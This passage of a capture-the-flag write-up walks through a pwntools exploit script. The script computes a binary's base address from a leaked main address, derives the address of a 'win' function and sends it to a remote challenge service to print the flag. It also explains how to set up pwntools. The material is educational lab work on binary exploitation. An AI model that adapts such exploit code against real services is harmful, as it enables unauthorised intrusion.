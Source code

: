 ```py

base_address = main_address - main_offset

log.info(f"=== BASE_ADDRESS: {hex(base_address)} ===")

win_address = base_address + win_offset

log.info(f"=== WIN_ADDRESS:  {hex(win_address)} ===")

log.info(f"Received:\n{p.recv().decode()}")

log.info(f"Sending jump address")

p.sendline(hex(win_address).encode())

log.info(f"=== FLAG ===\n{p.recvall().decode()}")
```
{: file="exploit.py" }

Don't worry, I'll explain the code:

```py
from pwn import *

host = args.HOST or input("host: ")
port = int(args.PORT or input("port: "))
```

Here, we are just importing the pwntools library, and retreiving the host and port variables.

Please note multiple things:
- Easiest way to install pwntools is through a Python Virtual Environment:
  - Install python3 and python3-venv: `sudo apt-get install -y python3 python3-venv` or `sudo pacman -Syu python python-virtualenv`
  - Setup virtual env: `python3 -m venv .venv`
  - Source the virtual env: `source .venv/bin/activate`
  - Install pwntools on the the venv: `pip install pwntools`
- `args.HOST` and `args.PORT` are pwntools utilities to retreive CLI arguments. It works ~ like env variables: `python3 exploit.py HOST=your-host PORT=1234`. (Note: exporting env variables won't work with `args`)

```py
main_offset = 0x133D
win_offset = 0x12A7
```

We just define static variables that we found before on the CTF: the offset of `main`, and the offset of `win`.

```py
p = remote(host=host, port=port)
```

This is the pwntools equivalent to `nc $host $port`: It'll initiate a tcp connection to the remote _host_, on the given _port_, storing the connection on the `p` variable, letting us interact with it later on the script.
